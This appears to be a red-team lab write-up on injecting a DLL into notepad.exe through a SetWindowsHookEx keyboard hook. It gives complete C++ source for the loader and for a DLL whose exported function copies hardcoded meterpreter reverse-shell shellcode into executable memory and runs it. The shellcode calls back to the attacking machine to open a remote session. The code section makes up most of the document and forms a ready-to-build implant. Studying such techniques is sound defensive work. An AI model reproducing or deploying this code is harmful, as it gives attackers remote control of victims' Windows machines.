



# SetWindowHookEx Code Injection

Windows allow programs to install hooks to monitor various system events such as mouse clicks and keyboard key presses by using `SetWindowHookEx`.

In this lab `SetWindowHookEx` is used to inject a malicious DLL into notepad.exe, which then executes  meterpreter shellcode.

## Overview

The workflow of the technique is as follows:

1. Create a malicious DLL that exports one function, which when invoked, executes meterpreter shellcode
2. Create another program that loads the malicious binary by:
   1. Resolving address of the exported function
   2. Installing a keyboard hook. The hook is then pointed to the exported function
3. Notepad.exe is launched by the victim and a keypress is registered
4. Since keyboard events are hooked, notepad.exe loads in our malicious dll and invokes the exported function
5. Metepreter session is established on the attacking system

## Execution

Let's create a DLL with an export a function `spotlessExport` that executes meterpreter shellcode when invoked:



Compile the DLL and check if the export was successful. We can use `dumpbin.exe` to do this, but first we need to find it \(if we have Visual Studio installed\):

```csharp
cmd /c dir /s/b c:\dumpbin*
```



Then use it like so to dump the exported functions:

```text
dumpbin.exe dllhook.dll /exports
```

Below shows the output of exported functions for `dllhook.dll` as presented by `CFF Explorer` \(left\) and dumpin:


## Demo

Below shows the technique in action:

* Process Explorer \(top right\) with notepad \(bottom right\) selected
* In the middle - the code that installs the hook to all threads that are in the same desktop as the calling thread
* Attacking system with multi-handler on the left - ready to catch the meterpreter
* Once the hook is installed and a key is pressed in when notepad is in focus, `dllhook.dll` is loaded into `notepad.exe` process and our malicious exported function `exportedSpotless` is executed, which in turn results in a meterpreter shell



## Code

Both `hooks.cpp` and `dllhook.cpp` are provided below:



```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>

int main()
{
	HMODULE library = LoadLibraryA("dllhook.dll");
	HOOKPROC hookProc = (HOOKPROC)GetProcAddress(library, "spotlessExport");

	HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, hookProc, library, 0);
	Sleep(10*1000);
	UnhookWindowsHookEx(hook);

	return 0;
}
```



```cpp
#include "stdafx.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
	case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

extern "C" __declspec(dllexport) int spotlessExport() {
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";

	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();
	
	return 0;
}
```



## References





